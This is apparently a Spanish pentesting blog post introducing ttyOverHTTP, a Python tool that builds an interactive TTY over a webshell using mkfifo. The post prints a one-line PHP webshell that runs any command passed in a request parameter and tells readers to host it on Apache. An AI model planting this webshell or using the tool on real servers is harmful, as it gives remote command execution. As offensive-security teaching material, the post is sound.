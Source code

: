 ```yaml
---
layout: single
title: ttyOverHTTP - Herramienta
excerpt: "Utilidad en Python para obtener una TTY totalmente interactiva mediante explotación web sin necesidad de entablarse una Reverse Shell."
date: 2020-02-04
classes: wide
header:
  teaser: /assets/images/ttyOverHTTP/ttyoverhttp-banner.jpg
  teaser_home_page: true
categories:
  - Scripting
  - Utilidades
tags:
  - Python
  - Web Exploiting
  - Herramientas
---
```


![](/assets/images/ttyOverHTTP/linux-banner.png)

Podéis encontrar esta herramienta en el siguiente enlace:

* [https://github.com/k4lelv/ttyoverhttp](https://github.com/k4lelv/ttyoverhttp)

## ¿Qué es ttyOverHTTP?

**ttyOverHTTP** no es más que una herramienta de utilidad la cual nos permitirá en base a una webshell, sin la necesidad de entablarnos una reverse shell, contar con una TTY completamente interactiva, haciendo uso para ello de la utilidad `mkfifo`.

Para los que no entiendan la problemática de las webshells, podéis probarlo por vuestra cuenta... simplemente montad un servidor apache y alojad este recurso PHP en la ruta `/var/www/html/cmd.php`:

```php
<?php
    echo shell_exec($_REQUEST['cmd']);
?>
```
